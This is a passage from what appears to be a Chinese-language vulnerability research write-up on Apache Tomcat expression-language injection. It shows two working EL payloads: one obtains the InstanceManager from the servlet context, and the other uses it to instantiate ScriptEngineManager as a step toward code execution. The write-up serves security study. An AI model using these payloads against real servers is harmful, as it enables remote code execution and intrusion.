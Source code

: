 其 `newInstance()` 方法可实例化任意有`无参构造方法`的类, InstanceManager 是个接口, 所以需要使用其实现类来获取想要的实例。

> 构造 poc 验证想法

- [X] 返回的默认实现类的对象 DefaultInstanceManager

```text
${req.getServletContext().getAttribute('org.apache.tomcat.InstanceManager')}
```
![](./img/4b1ee83c78f641b2b10fa3cd283c3291.png)

- [x] 调用 DefaultInstanceManager 的 newInstance() 方法实例化有无参构造方法的类

```text
${req.getServletContext().getAttribute('org.apache.tomcat.InstanceManager').newInstance('javax.script.ScriptEngineManager')}
```
![](./img/3758a159d18b4094af0e8c5a50f27765.png)

![](./img/ce987e383ffc41a3853619a59755172b.png)
